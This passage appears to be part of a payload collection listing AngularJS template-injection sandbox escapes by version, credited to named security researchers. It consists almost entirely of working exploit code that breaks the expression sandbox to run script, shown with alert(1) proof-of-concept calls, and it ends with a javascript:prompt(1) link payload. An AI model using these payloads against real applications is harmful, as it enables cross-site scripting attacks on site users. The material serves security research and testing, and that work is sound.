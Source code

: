 ```
    );}}
```

**1.3.1 - 1.3.2** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf;
    $eval('x=alert(1)//');
}}
```

**1.3.3 - 1.3.18** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

**1.3.19** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join;
    $eval('x=alert(1)//');
}}

```

**1.3.20** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

**1.4.0 - 1.4.9** by [Gareth Heyes (PortSwigger)](https://twitter.com/garethheyes)

```js
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

**1.5.0 - 1.5.8** by [Ian Hickey](https://twitter.com/ianhickey1024)

```js
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
```

**1.5.9 - 1.5.11** by [Jan Horn (Google)](https://twitter.com/tehjh)

```js
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```


[a]: (javascript:prompt(1))